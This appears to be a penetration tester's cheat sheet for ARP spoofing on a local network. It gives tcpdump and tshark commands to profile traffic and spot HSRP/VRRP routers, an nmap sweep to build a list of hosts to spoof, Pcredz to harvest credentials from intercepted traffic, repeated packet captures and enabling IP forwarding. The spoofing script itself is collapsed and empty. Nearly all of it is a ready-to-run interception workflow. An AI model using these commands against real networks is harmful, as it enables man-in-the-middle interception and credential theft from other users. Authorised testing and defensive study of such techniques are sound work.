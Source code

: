 

## Arp Spoofing (godmode)

Initial PCap
```bash
timeout 10m tcpdump -ni eth0 -w initial.cap 'not (port <x> and tcp)'
```
Protocol Statistics:
```bash
tshark -qz io,phs -r initial.cap


# Check for host using HSRP, remove these from your target list.
tshark -nr initial.cap -Y hsrp -V | grep 'Source Address' | sort -u

# Check for host using VRRP, remove these from your target list.
tshark -nr initial.cap -Y vrrp -V | grep 'Source Address' | sort -u
```

Nmap scan your local subnet to create a list of host to spoof.
```bash
nmap -sP -oG - -v -n SUBNET --exclude MYIP,ROUTERIPS | grep 'Status: Up' | cut -d' ' -f2 > mysubnethosts.txt
```

Use the Initial PCap to discover HSRP or VRRP, and remove router IPs any host using HSRP or VRRP from the mysubnethosts.txt file.

Set up tooling
```bash
# Pcredz
sudo Pcredz -i eth0
```

tcpdump to capture files sent over the wire
```bash
# {x} here being iteration. its good to do multiple captures to keep pcap file sizes small
tcpdump -ni eth0 -w arpspoof{x}.cap 'not port {port used to connect to box if remote}'
```

Enable traffic forwarding (plz no DoS network)
```bash
echo "1" > /proc/sys/net/ipv4/ip_forward
```

### Python scripts to generate script arp spoof script
Python3
<details><summary> Click me for the script</summary></details>

<br>

### The Process:

**Before any of this, check to see if VSRP or HRRP are running on any host on the network and be sure to exclude them from your host list.**
